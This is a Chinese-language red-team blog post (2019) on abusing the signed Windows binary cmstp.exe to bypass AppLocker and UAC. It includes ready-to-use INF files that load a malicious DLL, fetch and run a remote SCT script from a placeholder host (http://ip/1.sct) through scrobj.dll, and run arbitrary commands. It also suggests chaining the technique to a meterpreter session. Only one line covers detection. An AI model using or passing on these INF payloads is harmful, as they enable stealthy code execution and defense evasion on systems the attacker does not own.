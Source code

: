 ```yaml
---
layout:     post
title:    白名单-CMSTP配置文件利用
subtitle:   预祝新年快乐！CMSTP配置文件利用
date:       2019-12-31
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 免杀
    - 红队
    - 内网渗透
---
```

# 白名单-CMSTP配置文件利用

## 简介
CMSTP.exe是用于安装Connection Manager服务配置文件的命令行程序。程序接受INF配置文件作为参数。攻击者可以向CMSTP.exe提供受恶意命令感染的INF文件，以脚本（SCT）和DLL的形式执行任意代码。CMSTP是一个受信任的Microsoft二进制文件，位于以下两个Windows目录中：  
```
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```
## DLL
AppLocker默认规则允许在这些文件夹中执行二进制文件，因此我们可以用它来作为bypass的一种方法。使用这个二进制文件可以绕过AppLocker和UAC。因为传输的并不是二进制文件，所以也会绕过一些杀软的白名单。  
INF文件的内容有很多项，我们想要利用INF文件，只需要保留一些重要的项，以下是简化的INF文件内容:  
```
[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
[RegisterOCXSection]
C:\test.dll
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```
其中INF文件的RegisterOCXSection需要包含恶意DLL文件的本地路径或远程执行的WebDAV位置。  
然后执行命令：  
```
cmstp.exe /s cmstp.inf
```
我在测试中使用DLL加载并没有成功，可能是我的dll存在问题，用了cs生成的也没有用。  

## SCT
除了DLL文件外，cmstp还能够运行SCT文件，在实际操作中扩展了二进制的可用性。  
这里贴一个大佬写的用来调用PS的SCT文件。  
[https://gist.github.com/NickTyrer/0604bb9d7bcfef9e0cf82c28a7b76f0f](https://gist.github.com/NickTyrer/0604bb9d7bcfef9e0cf82c28a7b76f0f)  
修改inf文件内容：  
```
[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection
[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http://ip/1.sct
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```
![191231_1](/img/191231_sct.png)  
这里也自然而然的也可以联动msf去获取一个meterpreter，我这里就不演示了。  

## 命令执行  
我们还可以将RegisterOCXSection 换成RunPreSetupCommandsSection，在此项下可以直接执行命令程序。  
修改inf文件内容如下：  
```
[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
RunPreSetupCommands=RunPreSetupCommandsSection
[RunPreSetupCommandsSection]
c:\windows\system32\notepad.exe
taskkill /IM cmstp.exe /F
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```   
然后执行，可以看到弹出记事本。   
![191231_2](/img/191231_notepad.png)  
同理我们也可以将执行的命令或者程序替换成我们自己的文件，去获取对应的会话，这里我也不演示了，赶着2019最后一天发出来。   

## 总结
CMSTP可以用来绕过Apple限制和代码执行，也可以配合powershell进行文件不落地，我是没有试过张口就来了。但是CMSTP需要INF文件并在执行时生成一个CMP文件，它是连接管理器设置文件。因此，可以通过监视文件来起到一定的对抗作用。    

## 另
祝各位2020快乐，明年继续做个快乐的安全仔。  